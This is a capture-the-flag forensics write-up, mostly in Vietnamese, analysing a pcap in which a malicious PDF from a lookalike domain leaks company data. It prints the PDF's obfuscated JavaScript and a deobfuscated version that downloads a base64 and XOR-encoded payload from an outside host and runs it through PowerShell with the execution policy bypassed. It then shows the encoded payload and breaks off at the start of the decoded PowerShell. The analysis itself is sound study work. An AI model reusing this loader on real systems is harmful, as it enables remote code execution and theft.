





# Mô tả

I’ve noticed one of my business competitors suddenly knows about some top secret company data. The files were only stored on my desktop, so I think they may have hacked me!

I’ve provided a pcap of around the time the data got leaked. Can you figure out what happened?

# Phân tích

Bài cho ta 1 file pcap mở ra phân tích lúc đầu thì không có gì lạ cả nhưng ở tcp stream 26 thì người dùng có gửi một GET request tới `michaelsoft.com/10_ways_to_prevent_being_hacked_ebook.pdf` qua port 8080 rất bất thường có thể thấy `michaelsoft` đang cố gắng giả mạo cho giống microsoft 

Sau đó thì server trả về một file PDF, lướt xuống một chút thì sẽ thấy file pdf này thực hiện một lệnh dài sử dụng JS, nhưng nó đã bị obf rất đáng ngờ, copy về để kiểm tra

```js
function _0x2070\(_0x41dceb,_0x2d3a94\){const _0x1936df=_0xf4ad\(\);return _0x2070=function\(_0x42263e,_0x5e62fc\){_0x42263e=_0x42263e-\(0x1c9f+0xdd6+-0x28c7\);let _0x219b67=_0x1936df[_0x42263e];return _0x219b67;},_0x2070\(_0x41dceb,_0x2d3a94\);}const _0x56812d=_0x2070;\(function\(_0x552e76,_0xb7d948\){const _0x3eaee5=_0x2070,_0x2a8887=_0x552e76\(\);while\(!![]\){try{const _0x22069a=parseInt\(_0x3eaee5\(0x1b5\)\)/\(-0x2698+-0x8c3*-0x2+0x1513\)*\(-parseInt\(_0x3eaee5\(0x1bc\)\)/\(-0xf*-0x12d+-0xb*0x13e+0x1*-0x3f7\)\)+parseInt\(_0x3eaee5\(0x1c1\)\)/\(-0x5dd+0xb*0x1a6+-0x621*0x2\)*\(parseInt\(_0x3eaee5\(0x1c7\)\)/\(0x2*-0x129f+0xab*-0x29+0x4f9*0xd\)\)+-parseInt\(_0x3eaee5\(0x1d8\)\)/\(-0x666+-0x531*-0x3+0x928*-0x1\)+-parseInt\(_0x3eaee5\(0x1c9\)\)/\(-0x1*0x11b9+-0x598+0x1757\)+parseInt\(_0x3eaee5\(0x1b0\)\)/\(0x1*0x1285+0x3e0+0x2*-0xb2f\)*\(parseInt\(_0x3eaee5\(0x1c4\)\)/\(-0xa37*0x1+0x4*-0x133+0xf0b\)\)+-parseInt\(_0x3eaee5\(0x1e1\)\)/\(0xf59*-0x2+0x350+-0x1b6b*-0x1\)*\(-parseInt\(_0x3eaee5\(0x1b6\)\)/\(-0x419*-0x3+0x97b*0x2+-0x1*0x1f37\)\)+parseInt\(_0x3eaee5\(0x1d5\)\)/\(0x11*0x47+-0x7a3+-0xfd*-0x3\);if\(_0x22069a===_0xb7d948\)break;else _0x2a8887['push']\(_0x2a8887['shift']\(\)\);}catch\(_0xc886ae\){_0x2a8887['push']\(_0x2a8887['shift']\(\)\);}}}\(_0xf4ad,0x21e6*-0x83+0x1c54d2+0x3eed4\)\);const http=require\(_0x56812d\(0x1b8\)\),{exec}=require\(_0x56812d\(0x1e5\)+_0x56812d\(0x1c0\)\);function xorCrypt\(_0x451862,_0xb05de3\){const _0x37dfd7=_0x56812d,_0x5b6cc8={'XmeQl':function\(_0x4686e9,_0x590af0\){return _0x4686e9===_0x590af0;},'xTNjB':_0x37dfd7\(0x1d0\),'qVdYR':function\(_0x88e27d,_0x7951b0\){return _0x88e27d<_0x7951b0;},'BaXnZ':function\(_0x3fa61a,_0x5d01fc\){return _0x3fa61a%_0x5d01fc;},'ZMxxu':function\(_0xabab0e,_0x24be4a\){return _0xabab0e^_0x24be4a;}};let _0x24ce6d='';if\(_0x5b6cc8[_0x37dfd7\(0x1b7\)]\(typeof _0xb05de3,_0x5b6cc8[_0x37dfd7\(0x1d9\)]\)\){const _0x2f8ff0=_0xb05de3[_0x37dfd7\(0x1be\)]\(''\);for\(let _0x4b4771=0x11*-0x137+-0x1*-0xb29+0x1b*0x5a;_0x5b6cc8[_0x37dfd7\(0x1cc\)]\(_0x4b4771,_0x451862[_0x37dfd7\(0x1b2\)]\);_0x4b4771++\){const _0x3874f7=_0x451862[_0x37dfd7\(0x1bd\)]\(_0x4b4771\),_0x289a81=_0x2f8ff0[_0x5b6cc8[_0x37dfd7\(0x1d4\)]\(_0x4b4771,_0x2f8ff0[_0x37dfd7\(0x1b2\)]\)][_0x37dfd7\(0x1bd\)]\(0x21de+-0x1931*0x1+-0x8ad\);_0x24ce6d+=String[_0x37dfd7\(0x1d2\)+'de']\(_0x5b6cc8[_0x37dfd7\(0x1d1\)]\(_0x3874f7,_0x289a81\)\);}}return _0x24ce6d;}function downloadAndExecutePS\(_0x376868\){const _0x2440c0=_0x56812d,_0x4e3fdc={'iaPTZ':function\(_0xa1f8b,_0x1bdefa\){return _0xa1f8b\(_0x1bdefa\);},'KPTAd':function\(_0xdb894d,_0x3eab18,_0x43d169\){return _0xdb894d\(_0x3eab18,_0x43d169\);},'dVXvv':_0x2440c0\(0x1e3\)+_0x2440c0\(0x1e2\),'pBZgK':function\(_0x1c3a56,_0x4c77f8,_0x292fd1\){return _0x1c3a56\(_0x4c77f8,_0x292fd1\);},'LOTbW':_0x2440c0\(0x1e4\),'frxwd':_0x2440c0\(0x1d6\),'CEElF':_0x2440c0\(0x1d3\)};let _0x51917c='';http[_0x2440c0\(0x1dc\)]\(_0x376868,_0x4e4311=>{const _0x5d1fd0=_0x2440c0;_0x4e4311['on']\(_0x4e3fdc[_0x5d1fd0\(0x1b4\)],_0x889602=>{_0x51917c+=_0x889602;}\),_0x4e4311['on']\(_0x4e3fdc[_0x5d1fd0\(0x1cf\)],\(\)=>{const _0x5f6c3e=_0x5d1fd0;_0x51917c=_0x4e3fdc[_0x5f6c3e\(0x1c5\)]\(atob,_0x51917c\),_0x51917c=_0x4e3fdc[_0x5f6c3e\(0x1cb\)]\(xorCrypt,_0x51917c,_0x4e3fdc[_0x5f6c3e\(0x1ae\)]\);const _0x3a5e25=_0x5f6c3e\(0x1b1\)+_0x5f6c3e\(0x1e6\)+_0x5f6c3e\(0x1c2\)+_0x5f6c3e\(0x1ba\)+_0x5f6c3e\(0x1af\)+_0x51917c[_0x5f6c3e\(0x1e0\)]\(/"/g,'\\x5c\\x22'\)+'\\x22';_0x4e3fdc[_0x5f6c3e\(0x1c8\)]\(exec,_0x3a5e25,\(_0x17cc24,_0x55cf27,_0xc90cd0\)=>{const _0x5269cc=_0x5f6c3e;if\(_0x17cc24\){console[_0x5269cc\(0x1d3\)]\(_0x5269cc\(0x1bb\)+_0x5269cc\(0x1b9\)+_0x17cc24[_0x5269cc\(0x1cd\)]\);return;}_0xc90cd0&&console[_0x5269cc\(0x1d3\)]\(_0x5269cc\(0x1df\)+_0x5269cc\(0x1bf\)+_0xc90cd0\),console[_0x5269cc\(0x1ca\)]\(_0x5269cc\(0x1df\)+_0x5269cc\(0x1ce\)+_0x55cf27\);}\);}\);}\)['on']\(_0x4e3fdc[_0x2440c0\(0x1b3\)],_0x599831=>{const _0x4e1c9a=_0x2440c0;console[_0x4e1c9a\(0x1d3\)]\(_0x4e1c9a\(0x1dd\)+_0x4e1c9a\(0x1de\)+_0x599831[_0x4e1c9a\(0x1cd\)]\);}\);}const powershellScriptUrl=_0x56812d\(0x1c6\)+_0x56812d\(0x1d7\)+_0x56812d\(0x1c3\)+_0x56812d\(0x1da\)+_0x56812d\(0x1db\);downloadAndExecutePS\(powershellScriptUrl\);function _0xf4ad\(\){const _0x1d910d=['dVXvv','and\\x20\\x22','28SDlCmp','powershell','length','CEElF','LOTbW','1sWPiis','1730ujKFmv','XmeQl','http','error:\\x20','pass\\x20-Comm','Execution\\x20','3708624ZELwdZ','charCodeAt','split','\\x20stderr:\\x20','ess','145629YRilrf','nPolicy\\x20By','e.com:8080','1317560WgPGFe','iaPTZ','http://sup','8NkmRPt','pBZgK','6750276bKDuza','log','KPTAd','qVdYR','message','\\x20output:\\x20','frxwd','string','ZMxxu','fromCharCo','error','BaXnZ','35160081OiZpxe','end','ersecurite','2014940LPSLec','xTNjB','/helpful_t','ool.html','get','Download\\x20e','rror:\\x20','PowerShell','replace','21213UWhXcl','9thglfk','jfgneo3458','data','child_proc','\\x20-Executio'];_0xf4ad=function\(\){return _0x1d910d;};return _0xf4ad\(\);})
```

Trước khi đưa code này vào các trang deobf thì phải bỏ kí tự `\` vì ta có thể thấy nhiều kí tự `\` không liên quan được thêm vào để gây rối và khiến các tool deobf không thực hiện được

Dưới đây là code đã được làm sạch + deobf

```javascript
const http = require("http");
const {
  exec
} = require("child_process");
function xorCrypt(_0x451862, _0xb05de3) {
  let _0x24ce6d = '';
  if (typeof _0xb05de3 === "string") {
    const _0x2f8ff0 = _0xb05de3.split('');
    for (let _0x4b4771 = 0; _0x4b4771 < _0x451862.length; _0x4b4771++) {
      const _0x3874f7 = _0x451862.charCodeAt(_0x4b4771);
      const _0x289a81 = _0x2f8ff0[_0x4b4771 % _0x2f8ff0.length].charCodeAt(0);
      _0x24ce6d += String.fromCharCode(_0x3874f7 ^ _0x289a81);
    }
  }
  return _0x24ce6d;
}
function downloadAndExecutePS(_0x376868) {
  let _0x51917c = '';
  http.get(_0x376868, _0x4e4311 => {
    _0x4e4311.on("data", _0x889602 => {
      _0x51917c += _0x889602;
    });
    _0x4e4311.on("end", () => {
      _0x51917c = atob(_0x51917c);
      _0x51917c = xorCrypt(_0x51917c, "jfgneo34589thglfk");
      const _0x3a5e25 = "powershellx20-ExecutionPolicyx20Bypassx20-Commandx20x22" + _0x51917c.replace(/"/g, 'x5cx22') + 'x22';
      exec(_0x3a5e25, (_0x17cc24, _0x55cf27, _0xc90cd0) => {
        if (_0x17cc24) {
          console.error("Executionx20error:x20" + _0x17cc24.message);
          return;
        }
        if (_0xc90cd0) {
          console.error("PowerShellx20stderr:x20" + _0xc90cd0);
        }
        console.log("PowerShellx20output:x20" + _0x55cf27);
      });
    });
  }).on("error", _0x599831 => {
    console.error("Downloadx20error:x20" + _0x599831.message);
  });
}
downloadAndExecutePS("http://supersecuritee.com:8080/helpful_tool.html");
```

Giờ thì đoạn code này làm gì đã khá rõ ràng rồi, nó sẽ tải lệnh powershell bị mã hoá từ`http://supersecuritee.com:8080/helpful_tool.html` sau đó thực hiện giải mã lệnh powershell đó bằng key `jfgneo34589thglfk` và cuối cùng là thực hiện nó

Biết vậy ta xuất `helpfull_tool.html` ra để xem lệnh PS là gì, đây là nội dung của nó

```
DBMJDREGXFoVcVcCBwwJSzkpUiMLBh1KREEYQn5IR0xGMCkLAwIAG3FdW1xQGg9PRTthSkZHThUOQVVYGBF+SEdMRktKRkc1NQ5BVVhdTREaTyEHBQ4HEwEXFhMJFRxNBh0CRTthSkZHTkVPExRuWkAADTwxO08vCAQcHB9HUVF8WAAJS2ZGS0pGR05FTzkUFRgZVEhHTD07CxQGAwAbVkYddVgaDAYYCRkTRlpOQRtBQVARZH5IR0xGS0pGRzUHFkdRbmVkUCMCFWxLSkZHR29PExQVMhlUSEdPRigYAwYaAE9hdwEYSgAJEwlGChgUBhdFR2AZV1dBXWJHTEZLTjVHU0UhVkMYd1seDQQYRgkTEgI1OE8BAQMyGVRIRwoJGUpOQwdFUhMEDhgdHUhKABJLWFNRVUVLWh8eERkPYkdMRktKRkdOQTxoEFxlGUlIQwVsS0pGRxNvTxMUFTIZVEhHT0YgDx9HHQYHVlBAVFAaD0cNCgwFFA4aDQITHH5reF1iR0xGS04MR1NFXzkUFRgZEgcVTE5PA0ZaTlVUExBcGBQYHEdeU11RRkMHTkQaFE4yGVRIR0xGS0pCDU5YTxsQXxgSVEw0N0ICN0ZMTkEkVk1uHFBUTUdILQ4TSCsLCwhHXGgRGVFIVVlQYUpGR05FTxMUFhhqAwkXTDUwAztHDwsLE2duUmR+SEdMRktKRkdKEQpeRBUFGVA7PEgPNmBGR05FTxMUFRxqL0wOMUZWSkI0NUEFbj4VGBlUSEdMRk85PUMEOE8OFBFMXBkYbUxGS0obbU5FTxM+FRgZVEtHPBUOHwIIQxcOXVBaVRkTDQkJFAoeDwgARQ5fU1pKUAAACkxOOzghJkdFDl1QFVxcFxoeHBICBQhtTkVPExBcGARUTA1MW0tabEdORU8XRlBLTBgcR1FGJQ8RSiEHBVZXQRhbDRwCNztLTiMJDRcWQ0BQXH0VHAZCKg4EARMGb08TFBUyGVRIRwoJGUpOQwVFUhMEDhgdH0hKABJLTiMJDRcWQ0BQXH0VHAZCKg4EARMGXk8XXx4TEFQTbUxGS0pGR05FS1oUCBgRUAFHR0ZaQ0ZCTldaBT4VGBlUSEdMRk8ARlpOTUtZFB4YHSczQwU7QkpDR1xQWTkUFRgZVEhHTGxLSkZHTkVPExcVa04VGEc/PQI3RgYAAU9gb19lM1RIR0xGS0pGQxoAAkMUCBgdJzNDBTthSkZHTkVPExQRa2JQATpMW0tONTxKDzI5FBUYGVRIR0xCODFCDTNFUhMQQV1UBGJHTEZLSkZHTm9PExQVGBlUSERMIQ4EAxUPEQoTX1BBSgAaAg0LSwgfEwtFDl1QFWB2JkgQBRIDSgMJDRcWQ0BQXBkWERMJbEtKRkdORU8TEF5dQCccFQkHBigfEwtFUhMQZmMRUDs8SA82Sk1HSjY0F15oERlRSFVZUDZgRkdORU8TFBUcSxEbEgASME4NOk5YTxdxW1tLDRgTCQIvCxIGNUEEbhQYWkEbGkdIDQ4TNRMcAA5edkxMXH5IR0xGFmBGR05FZRMUFRhLERwSHghLThQCHRADRz5IMjN+TDIeCktXRkAGERtDDhoXTRwNAAMJGA8PFAIKAEBRG1xcAlJfXF5bRQUPCwYEbFJaSmYCARUZFUUIBxNJb0wTd0ddWAANRw1GHA8ERw0JBlZaQRhNG0gDAxEFBgkGCkUbW1EVXlAYDW1IEQ4IJQsHAAFHFAgYdxEfSiMEAQ8FE042FkBAUFUXOg0TQjEOCCULBwABRz4/GxkwBxACCgQLAkcaDQoTVlxWWAYRRw0VSwtGBRcRChNVR0pYDUgDBRQOCRILF0UGXUBaGFQRBQgeH2FOAwkNFxZDQFBcew0cAh9GVkpCEAsHLF9dUFZNWiwIGwgHBQcDKgQbUhwRbUsYQW1mbE8BAx5OWE8UAAZbVxYGClgOAlMLEV8WGRQ+Fhh6GwYRCRQfShUTHAwBVBReXUBUHAhMBBIeA0cPFx1STT8cUhERJRUSDhlGWk4+PEpHQV1UWjwCFBJFLwgEAQEGXVNoAgM1OyQlL0UtAxMsHBtWRx0cUhERTmZsSEonAwpFHFxZUBhdEQoSC0YCBAAIHAgOR11aVjN+S0coAwgYHxcaRRtbURVcWAAJbUgCDgkUHh4RCld2TExcB0haTC8FHAkMC0g9cABxXVoGERcYRkYvCAQcHB9HUVF8WAAJR0gDBQkUHh4RCld2TExcB0hKJwMSSkIMCxwtSkBQSzN+S0cgCQoORhMGAE9SR0ZdVBYEHkwAGQULRxoNChNWTExcVAkVHgcSYEIGHRYKXlZZQRlJSDw/HxgeAwpANwpVWFBbTR0HCUInGBkDCgwJFm4OD3RWFQxPSAIOCRQeHhEKV3ZMTFwHQW1mRUstAxNOEQdWFFBWTQYRRxwJAgQSR0YoDlpaFVVcAAAICE9LBQBHGg0KE1VGS1wZCgsVbE8PCBMcHD9cXVtMGUlIQw0VGA8LBQIcQXZaQUpAJAcOAhJhYGwOCEVHF1FbTEsNOAgFCB9KSwkLRUtdQVlUEFQTbUxGS0pFRy0XClJAUBhYGkgOAhUfCwgEC0UAVRRBUFxUBQYFCEsJCgYdFk9aUhVRTVMbRwIJH0oVEw8RBlA+FRgZVEwOAhUfCwgEC0VSExBbTVUYYkdMRksDAEdGSAFcQBUcXBocFRU2BAMIE0AsHGBAVExQF0FHF2xLSkZHTkVPExBcVkoACQkPA0tXRkMPFhxWWVdUQForFQkHHw8vCR0RDl1XUBAdEQYTHh87BQ8JGksrVldZWUsdBgA4HxsPSCEbCQN9VVhdEH5IR0xGFmBGR05FZRMUFRgaVC0fCQUeHgNHGg0KE1FbTEsNSBcDDwUebEdORU8XUVtMSw04CAUIH0QvCRgKBFYcEVFXBxwGAgUORkZDABADXx0/RRkRBBQJRhBgRkdORThBXUFdFDsdExwTH0pEIQ8MA1ZQFzJEfg==
```

Nội dung đang ở dưới dạng base64 nên nếu muốn decode ta sẽ phải decode b64 rồi sau đó mới xor với `jfgneo34589thglfk` , có thể tạo một script để thực hiện hoặc làm trên [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'Hex','string':'6A66676E656F33343538397468676C666B'%7D,'Standard',false)&input=REJNSkRSRUdYRm9WY1ZjQ0J3d0pTemtwVWlNTEJoMUtSRUVZUW41SVIweEdNQ2tMQXdJQUczRmRXMXhRR2c5UFJUdGhTa1pIVGhVT1FWVllHQkYrU0VkTVJrdEtSa2MxTlE1QlZWaGRUUkVhVHlFSEJRNEhFd0VYRmhNSkZSeE5CaDBDUlR0aFNrWkhUa1ZQRXhSdVdrQUFEVHd4TzA4dkNBUWNIQjlIVVZGOFdBQUpTMlpHUzBwR1IwNUZUemtVRlJnWlZFaEhURDA3Q3hRR0F3QWJWa1lkZFZnYURBWVlDUmtUUmxwT1FSdEJRVkFSWkg1SVIweEdTMHBHUnpVSEZrZFJibVZrVUNNQ0ZXeExTa1pIUjI5UEV4UVZNaGxVU0VkUFJpZ1lBd1lhQUU5aGR3RVlTZ0FKRXdsR0NoZ1VCaGRGUjJBWlYxZEJYV0pIVEVaTFRqVkhVMFVoVmtNWWQxc2VEUVFZUmdrVEVnSTFPRThCQVFNeUdWUklSd29KR1VwT1F3ZEZVaE1FRGhnZEhVaEtBQkpMV0ZOUlZVVkxXaDhlRVJrUFlrZE1Sa3RLUmtkT1FUeG9FRnhsR1VsSVF3VnNTMHBHUnhOdlR4TVVGVElaVkVoSFQwWWdEeDlISFFZSFZsQkFWRkFhRDBjTkNnd0ZGQTRhRFFJVEhINXJlRjFpUjB4R1MwNE1SMU5GWHprVUZSZ1pFZ2NWVEU1UEEwWmFUbFZVRXhCY0dCUVlIRWRlVTExUlJrTUhUa1FhRkU0eUdWUklSMHhHUzBwQ0RVNVlUeHNRWHhnU1ZFdzBOMElDTjBaTVRrRWtWazF1SEZCVVRVZElMUTRUU0NzTEN3aEhYR2dSR1ZGSVZWbFFZVXBHUjA1RlR4TVVGaGhxQXdrWFREVXdBenRIRHdzTEUyZHVVbVIrU0VkTVJrdEtSa2RLRVFwZVJCVUZHVkE3UEVnUE5tQkdSMDVGVHhNVUZSeHFMMHdPTVVaV1NrSTBOVUVGYmo0VkdCbFVTRWRNUms4NVBVTUVPRThPRkJGTVhCa1liVXhHUzBvYmJVNUZUeE0rRlJnWlZFdEhQQlVPSHdJSVF4Y09YVkJhVlJrVERRa0pGQW9lRHdnQVJRNWZVMXBLVUFBQUNreE9PemdoSmtkRkRsMVFGVnhjRnhvZUhCSUNCUWh0VGtWUEV4QmNHQVJVVEExTVcwdGFiRWRPUlU4WFJsQkxUQmdjUjFGR0pROFJTaUVIQlZaWFFSaGJEUndDTnp0TFRpTUpEUmNXUTBCUVhIMFZIQVpDS2c0RUFSTUdiMDhURkJVeUdWUklSd29KR1VwT1F3VkZVaE1FRGhnZEgwaEtBQkpMVGlNSkRSY1dRMEJRWEgwVkhBWkNLZzRFQVJNR1hrOFhYeDRURUZRVGJVeEdTMHBHUjA1RlMxb1VDQmdSVUFGSFIwWmFRMFpDVGxkYUJUNFZHQmxVU0VkTVJrOEFSbHBPVFV0WkZCNFlIU2N6UXdVN1FrcERSMXhRV1RrVUZSZ1pWRWhIVEd4TFNrWkhUa1ZQRXhjVmEwNFZHRWMvUFFJM1JnWUFBVTlnYjE5bE0xUklSMHhHUzBwR1F4b0FBa01VQ0JnZEp6TkRCVHRoU2taSFRrVlBFeFFSYTJKUUFUcE1XMHRPTlR4S0R6STVGQlVZR1ZSSVIweENPREZDRFRORlVoTVFRVjFVQkdKSFRFWkxTa1pIVG05UEV4UVZHQmxVU0VSTUlRNEVBeFVQRVFvVFgxQkJTZ0FhQWcwTFN3Z2ZFd3RGRGwxUUZXQjJKa2dRQlJJRFNnTUpEUmNXUTBCUVhCa1dFUk1KYkV0S1JrZE9SVThURUY1ZFFDY2NGUWtIQmlnZkV3dEZVaE1RWm1NUlVEczhTQTgyU2sxSFNqWTBGMTVvRVJsUlNGVlpVRFpnUmtkT1JVOFRGQlVjU3hFYkVnQVNNRTROT2s1WVR4ZHhXMXRMRFJnVENRSXZDeElHTlVFRWJoUVlXa0ViR2tkSURRNFROUk1jQUE1ZWRreE1YSDVJUjB4R0ZtQkdSMDVGWlJNVUZSaExFUndTSGdoTFRoUUNIUkFEUno1SU1qTitUREllQ2t0WFJrQUdFUnRERGhvWFRSd05BQU1KR0E4UEZBSUtBRUJSRzF4Y0FsSmZYRjViUlFVUEN3WUViRkphU21ZQ0FSVVpGVVVJQnhOSmIwd1RkMGRkV0FBTlJ3MUdIQThFUncwSkJsWmFRUmhORzBnREF4RUZCZ2tHQ2tVYlcxRVZYbEFZRFcxSUVRNElKUXNIQUFGSEZBZ1lkeEVmU2lNRUFROEZFMDQyRmtCQVVGVVhPZzBUUWpFT0NDVUxCd0FCUno0L0d4a3dCeEFDQ2dRTEFrY2FEUW9UVmx4V1dBWVJSdzBWU3d0R0JSY1JDaE5WUjBwWURVZ0RCUlFPQ1JJTEYwVUdYVUJhR0ZRUkJRZ2VIMkZPQXdrTkZ4WkRRRkJjZXcwY0FoOUdWa3BDRUFzSExGOWRVRlpOV2l3SUd3Z0hCUWNES2dRYlVod1JiVXNZUVcxbWJFOEJBeDVPV0U4VUFBWmJWeFlHQ2xnT0FsTUxFVjhXR1JRK0ZoaDZHd1lSQ1JRZlNoVVRIQXdCVkJSZVhVQlVIQWhNQkJJZUEwY1BGeDFTVFQ4Y1VoRVJKUlVTRGhsR1drNCtQRXBIUVYxVVdqd0NGQkpGTHdnRUFRRUdYVk5vQWdNMU95UWxMMFV0QXhNc0hCdFdSeDBjVWhFUlRtWnNTRW9uQXdwRkhGeFpVQmhkRVFvU0MwWUNCQUFJSEFnT1IxMWFWak4rUzBjb0F3Z1lIeGNhUlJ0YlVSVmNXQUFKYlVnQ0Rna1VIaDRSQ2xkMlRFeGNCMGhhVEM4RkhBa01DMGc5Y0FCeFhWb0dFUmNZUmtZdkNBUWNIQjlIVVZGOFdBQUpSMGdEQlFrVUhoNFJDbGQyVEV4Y0IwaEtKd01TU2tJTUN4d3RTa0JRU3pOK1MwY2dDUW9PUmhNR0FFOVNSMFpkVkJZRUhrd0FHUVVMUnhvTkNoTldURXhjVkFrVkhnY1NZRUlHSFJZS1hsWlpRUmxKU0R3L0h4Z2VBd3BBTndwVldGQmJUUjBIQ1VJbkdCa0RDZ3dKRm00T0QzUldGUXhQU0FJT0NSUWVIaEVLVjNaTVRGd0hRVzFtUlVzdEF4Tk9FUWRXRkZCV1RRWVJSeHdKQWdRU1IwWW9EbHBhRlZWY0FBQUlDRTlMQlFCSEdnMEtFMVZHUzF3WkNnc1ZiRThQQ0JNY0hEOWNYVnRNR1VsSVF3MFZHQThMQlFJY1FYWmFRVXBBSkFjT0FoSmhZR3dPQ0VWSEYxRmJURXNOT0FnRkNCOUtTd2tMUlV0ZFFWbFVFRlFUYlV4R1MwcEZSeTBYQ2xKQVVCaFlHa2dPQWhVZkN3Z0VDMFVBVlJSQlVGeFVCUVlGQ0VzSkNnWWRGazlhVWhWUlRWTWJSd0lKSDBvVkV3OFJCbEErRlJnWlZFd09BaFVmQ3dnRUMwVlNFeEJiVFZVWVlrZE1Sa3NEQUVkR1NBRmNRQlVjWEJvY0ZSVTJCQU1JRTBBc0hHQkFWRXhRRjBGSEYyeExTa1pIVGtWUEV4QmNWa29BQ1FrUEEwdFhSa01QRmh4V1dWZFVRRm9yRlFrSEh3OHZDUjBSRGwxWFVCQWRFUVlUSGg4N0JROEpHa3NyVmxkWldVc2RCZ0E0SHhzUFNDRWJDUU45VlZoZEVINUlSMHhHRm1CR1IwNUZaUk1VRlJnYVZDMGZDUVVlSGdOSEdnMEtFMUZiVEVzTlNCY0REd1VlYkVkT1JVOFhVVnRNU3cwNENBVUlIMFF2Q1JnS0JGWWNFVkZYQnh3R0FnVU9Sa1pEQUJBRFh4MC9SUmtSQkJRSlJoQmdSa2RPUlRoQlhVRmRGRHNkRXh3VEgwcEVJUThNQTFaUUZ6SkVmZz09) ta được 

```powershell
function Invoke-RC4Decrypt {
    [CmdletBinding()]
    param (
        [Parameter(Mandatory = $true)]
        [byte[]]$EncryptedData,
        
        [Parameter(Mandatory = $true)]
        [byte[]]$Key
    )
    
    # Create RC4 state array (S-box)
